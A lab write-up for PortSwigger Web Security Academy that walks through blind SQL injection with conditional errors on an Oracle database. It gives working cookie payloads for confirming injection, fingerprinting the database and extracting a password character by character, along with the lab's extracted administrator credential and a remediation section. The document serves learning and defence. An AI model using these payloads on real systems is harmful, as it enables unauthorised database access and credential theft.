



# Lab 12: Blind SQL Injection with Conditional Errors

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 27, 2026

---

## 1. Objective
Exploit a Blind SQL injection vulnerability in the `TrackingId` cookie on an Oracle database by forcing intentional `HTTP 500` errors when a condition is **True**, extract the `administrator` password using a Python script, and log in as `administrator`.

---

## 2. How This Lab Is Different from Previous Labs
In earlier labs, we either printed data directly on the screen (`UNION` attacks) or looked for changing webpage text (`Welcome back!` in Lab 11).

In **Lab 12**, the webpage looks **100% identical** every time—no data appears on the page and no text changes. Instead, we use **HTTP Status Codes (`500` vs `200`)** as a True/False signal across two stages:

### Stage A: Syntax & Setup Checks (`200` = Valid, `500` = Broken)
- **One quote (`'`):** Breaks the SQL query $\rightarrow$ **HTTP 500**.
- **Two quotes (`''`):** Escapes cleanly $\rightarrow$ **HTTP 200** (confirms SQLi).
- **Table & Database checks (`FROM users` / `FROM dual`):** Runs without crashing $\rightarrow$ **HTTP 200** (confirms `users` table and **Oracle** database).

### Stage B: Password Guessing Trapdoor (`500` = TRUE / Match, `200` = FALSE / Miss)
We inject `CASE WHEN <condition> THEN TO_CHAR(1/0) ELSE '' END`:
- **Condition is TRUE:** Oracle divides `1` by `0` (`1/0`), crashing the query $\rightarrow$ **HTTP 500 Internal Server Error** (means our guess is **RIGHT**).
- **Condition is FALSE:** Oracle returns empty text (`''`) safely $\rightarrow$ **HTTP 200 OK** (means our guess is **WRONG**).

---

## 3. Step-by-Step Enumeration
- **Target Endpoint:** `GET /filter?category=Gifts`
- **Vulnerable Parameter:** `TrackingId` (HTTP Cookie)

1. **Confirm SQL Injection (`'` vs `''`):**
   - `TrackingId=IGoIs66bUaDwX0pq'` $\rightarrow$ **HTTP 500**
   - `TrackingId=IGoIs66bUaDwX0pq''` $\rightarrow$ **HTTP 200**
2. **Confirm `users` Table & Oracle Backend:**
   - `TrackingId=IGoIs66bUaDwX0pq'||(SELECT '' FROM users WHERE rownum=1)||'` $\rightarrow$ **HTTP 200** (`users` table exists)
   - `TrackingId=IGoIs66bUaDwX0pq'||(SELECT '' FROM dual)||'` $\rightarrow$ **HTTP 200** (confirms **Oracle** database)
3. **Find Password Length (Burp Repeater & Intruder):**
   - `LENGTH(password)>19` $\rightarrow$ **HTTP 500** (True: length is at least 20)
   - `LENGTH(password)>20` $\rightarrow$ **HTTP 200** (False: password is **20 characters** long)

---

## 4. Exploitation & Proof of Concept (PoC)
A custom Python script (`requests`) automated character-by-character extraction using Oracle's `SUBSTR()` function (`a-z`, `0-9`), recording each character whenever the server returned `HTTP 500`.

### Payload Logic (Per Character Position)
```sql
'||(SELECT CASE WHEN SUBSTR(password,1,1)='3' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

## Extracted Credentials
Username: administrator
Password: 33o2x7jdaq8qj1do96be

Logging in via /login with these credentials granted administrative access and solved the lab.

Proof of Exploitation Screenshots
1. Confirming SQLi via Single Quote (HTTP 500):

2. Escaping Quote to Restore Valid Syntax (HTTP 200):

3. Confirming users Table Exists (WHERE rownum=1):

4. Fingerprinting Oracle Database (FROM dual):

5. Confirming `administrator` User Exists (`HTTP 500` Triggered):**
*(Note: In the screenshot below, `THAN` was initially typed instead of `THEN`—make sure to use `THEN` in your own payload so the `500` error comes from `1/0` rather than a syntax typo.)*

6. Confirming Exact Length (20 Characters) in Burp Intruder:

7. Custom Python Automation Script Output (33o2x7jdaq8qj1do96be):

8. Administrative Login & Lab Completion Banner:



## 5. Impact (What Damage Can an Attacker Do?)
Even though the website hides database error messages and the page looks identical on every request, the difference between an HTTP 500 error and an HTTP 200 response acts as a Yes/No signal. Using a simple script, an attacker can ask thousands of True/False questions per minute, steal the administrator password character-by-character, and take full control of the application and all user data.

## 6. Remediation (How to Fix It)
Use Parameterized Queries (Prepared Statements): Never glue cookie values like TrackingId directly into a SQL query string. Use prepared statements so the database treats the cookie strictly as harmless text rather than executable SQL commands:
```
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM tracking WHERE id = ?");
stmt.setString(1, trackingIdCookie);
ResultSet rs = stmt.executeQuery();
```
Hash Passwords Securely: Store passwords using strong adaptive hashing algorithms (such as Argon2id or bcrypt) instead of plaintext, so reading the users table does not reveal usable login credentials.

